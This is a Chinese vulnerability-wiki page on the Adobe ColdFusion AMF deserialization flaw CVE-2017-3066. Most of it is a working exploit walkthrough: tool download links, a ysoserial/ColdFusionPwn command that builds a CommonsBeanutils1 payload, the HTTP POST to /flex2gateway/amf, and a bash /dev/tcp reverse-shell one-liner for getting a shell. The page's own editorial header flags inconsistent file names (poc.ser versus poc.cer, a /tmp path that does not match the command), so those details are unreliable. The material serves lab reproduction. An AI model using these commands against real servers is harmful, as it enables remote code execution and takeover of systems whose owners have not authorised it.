

# （CVE-2017-3066）Adobe ColdFusion 反序列化漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：2016U3/11U11/10U22及此前、AMF路径可达、兼容序列化gadget/JVM
- 证据范围：二进制Paste From File注意事项有价值，明确200不证明执行；工具包只是外链未检查

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 生成poc.ser后却称poc.cer；touch文件名与/tmp/success不同
- 简介空白、图片后路径残文、两端点黏连
- 应链接原始codewhitesec来源和修复版本，镜像JAR可信度未验证
- 本地Java命令classpath冒号为Unix语法需平台标注

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

二、漏洞影响
------------

Adobe ColdFusion (2016 release) Update 3及之前的版本，

ColdFusion 11 Update 11及之前的版本，

ColdFusion 10 Update 22及之前的版本。

三、复现过程
------------

使用[ColdFusionPwn](https://github.com/ianxtianxt/ColdFusionPwnn)工具来生成POC。[点击下载ColdFusionPwn](http://wiki.0-sec.org/download/ColdFusionPwn-0.0.1-SNAPSHOT-all.zip)

Usage
-----

    java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile]

[点击下载ysoserial](http://wiki.0-sec.org/download/ysoserial.zip)【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

    java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为`application/x-amf`**路径不唯一，目前已收集到的为以下两种路径：****/flex2gateway/amf****/messagebroker/amf**

    POST /flex2gateway/amf HTTP/1.1
    Host: your-ip:8500
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-amf
    Content-Length: 2853

    [...poc...]

AdobeColdFusion反序列化漏洞/media/rId28.png)

### 关于发送的内容编码问题

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200

#### 正确发送方式为：

右击选择**Paste From File**，上传**poc.cer**文件

AdobeColdFusion反序列化漏洞/media/rId31.png)

再到`Raw`界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存

AdobeColdFusion反序列化漏洞/media/rId32.png)

进入容器中，发现`/tmp/success`已成功创建：

AdobeColdFusion反序列化漏洞/media/rId33.png)

将POC改成[反弹命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功拿到shell：

AdobeColdFusion反序列化漏洞/media/rId35.png)

补充一下反弹shell的命令,可以通过http://www.jackson-t.ca/runtime-exec-payloads.html在线转换

    bash -i >& /dev/tcp/ip/port 0>&1

参考链接
--------

> https://vulhub.org/\#/environments/coldfusion/CVE-2017-3066/
